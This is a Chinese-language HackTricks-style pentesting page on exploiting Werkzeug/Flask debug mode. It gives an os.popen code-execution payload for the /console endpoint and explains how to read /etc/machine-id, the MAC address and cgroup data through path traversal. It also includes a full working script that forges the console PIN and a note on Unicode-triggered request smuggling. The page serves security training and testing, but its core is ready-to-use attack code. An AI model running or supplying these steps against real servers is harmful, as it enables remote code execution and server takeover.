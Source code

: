 # Werkzeug / Flask 调试

{{#include ../../banners/hacktricks-training.md}}


## 控制台 RCE

如果调试处于活动状态，您可以尝试访问 `/console` 并获得 RCE。
```python
__import__('os').popen('whoami').read();
```
![](<../../images/image (117).png>)

互联网上还有几个漏洞，比如[这个](https://github.com/its-arun/Werkzeug-Debug-RCE)或metasploit中的一个。

## PIN保护 - 路径遍历

在某些情况下，**`/console`** 端点将受到PIN保护。如果您有**文件遍历漏洞**，您可以泄露生成该PIN所需的所有信息。

### Werkzeug控制台PIN漏洞

在应用程序中强制显示调试错误页面以查看此内容：
```
The console is locked and needs to be unlocked by entering the PIN.
You can find the PIN printed out on the standard output of your
shell that runs the server
```
当尝试访问 Werkzeug 的调试接口时，会遇到关于“控制台锁定”场景的消息，指示需要一个 PIN 来解锁控制台。建议通过分析 Werkzeug 的调试初始化文件 (`__init__.py`) 中的 PIN 生成算法来利用控制台 PIN。可以从 [**Werkzeug 源代码库**](https://github.com/pallets/werkzeug/blob/master/src/werkzeug/debug/__init__.py) 研究 PIN 生成机制，但建议通过文件遍历漏洞获取实际服务器代码，以避免潜在的版本差异。

要利用控制台 PIN，需要两组变量，`probably_public_bits` 和 `private_bits`：

#### **`probably_public_bits`**

- **`username`**：指发起 Flask 会话的用户。
- **`modname`**：通常指定为 `flask.app`。
- **`getattr(app, '__name__', getattr(app.__class__, '__name__'))`**：通常解析为 **Flask**。
- **`getattr(mod, '__file__', None)`**：表示 Flask 目录中 `app.py` 的完整路径（例如，`/usr/local/lib/python3.5/dist-packages/flask/app.py`）。如果 `app.py` 不适用，**尝试 `app.pyc`**。

#### **`private_bits`**

- **`uuid.getnode()`**：获取当前机器的 MAC 地址，`str(uuid.getnode())` 将其转换为十进制格式。

- 要 **确定服务器的 MAC 地址**，必须识别应用使用的活动网络接口（例如，`ens3`）。如果不确定，**泄露 `/proc/net/arp`** 以找到设备 ID，然后 **从 `/sys/class/net/<device id>/address`** 中提取 MAC 地址。
- 可以按如下方式将十六进制 MAC 地址转换为十进制：

```python
# 示例 MAC 地址: 56:00:02:7a:23:ac
>>> print(0x5600027a23ac)
94558041547692
```

- **`get_machine_id()`**：将 `/etc/machine-id` 或 `/proc/sys/kernel/random/boot_id` 中的数据与 `/proc/self/cgroup` 的第一行在最后一个斜杠（`/`）之后的部分连接起来。

<details>

<summary>代码 `get_machine_id()`</summary>
```python
def get_machine_id() -> t.Optional[t.Union[str, bytes]]:
global _machine_id

if _machine_id is not None:
return _machine_id

def _generate() -> t.Optional[t.Union[str, bytes]]:
linux = b""

# machine-id is stable across boots, boot_id is not.
for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot_id":
try:
with open(filename, "rb") as f:
value = f.readline().strip()
except OSError:
continue

if value:
linux += value
break

# Containers share the same machine id, add some cgroup
# information. This is used outside containers too but should be
# relatively stable across boots.
try:
with open("/proc/self/cgroup", "rb") as f:
linux += f.readline().strip().rpartition(b"/")[2]
except OSError:
pass

if linux:
return linux

# On OS X, use ioreg to get the computer's serial number.
try:
```
</details>

在收集所有必要数据后，可以执行漏洞利用脚本以生成 Werkzeug 控制台 PIN：

在收集所有必要数据后，可以执行漏洞利用脚本以生成 Werkzeug 控制台 PIN。该脚本使用组装的 `probably_public_bits` 和 `private_bits` 创建一个哈希，然后经过进一步处理以生成最终的 PIN。以下是执行此过程的 Python 代码：
```python
import hashlib
from itertools import chain
probably_public_bits = [
'web3_user',  # username
'flask.app',  # modname
'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
'/usr/local/lib/python3.5/dist-packages/flask/app.py'  # getattr(mod, '__file__', None),
]

private_bits = [
'279275995014060',  # str(uuid.getnode()),  /sys/class/net/ens33/address
'd4e6cb65d59544f3331ea0425dc555a1'  # get_machine_id(), /etc/machine-id
]

# h = hashlib.md5()  # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
if not bit:
continue
if isinstance(bit, str):
bit = bit.encode('utf-8')
h.update(bit)
h.update(b'cookiesalt')
# h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
h.update(b'pinsalt')
num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
for group_size in 5, 4, 3:
if len(num) % group_size == 0:
rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
for x in range(0, len(num), group_size))
break
else:
rv = num

print(rv)
```
该脚本通过对连接的位进行哈希处理，添加特定的盐（`cookiesalt` 和 `pinsalt`），并格式化输出，从而生成 PIN。需要注意的是，`probably_public_bits` 和 `private_bits` 的实际值需要从目标系统准确获取，以确保生成的 PIN 与 Werkzeug 控制台预期的匹配。

> [!TIP]
> 如果您使用的是 **旧版本** 的 Werkzeug，请尝试将 **哈希算法更改为 md5** 而不是 sha1。

## Werkzeug Unicode 字符

正如在 [**这个问题**](https://github.com/pallets/werkzeug/issues/2833) 中观察到的，Werkzeug 不会关闭带有 Unicode 字符的请求头。而正如在 [**这篇文章**](https://mizu.re/post/twisty-python) 中解释的，这可能导致 CL.0 请求走私漏洞。

这是因为，在 Werkzeug 中可以发送一些 **Unicode** 字符，这会导致服务器 **崩溃**。然而，如果 HTTP 连接是通过 **`Connection: keep-alive`** 头创建的，请求的主体将不会被读取，连接仍将保持打开状态，因此请求的 **主体** 将被视为 **下一个 HTTP 请求**。

## 自动化利用

{% embed url="https://github.com/Ruulian/wconsole_extractor" %}

## 参考文献

- [**https://www.daehee.com/werkzeug-console-pin-exploit/**](https://www.daehee.com/werkzeug-console-pin-exploit/)
- [**https://ctftime.org/writeup/17955**](https://ctftime.org/writeup/17955)
- [**https://github.com/pallets/werkzeug/issues/2833**](https://github.com/pallets/werkzeug/issues/2833)
- [**https://mizu.re/post/twisty-python**](https://mizu.re/post/twisty-python)

{{#include ../../banners/hacktricks-training.md}}

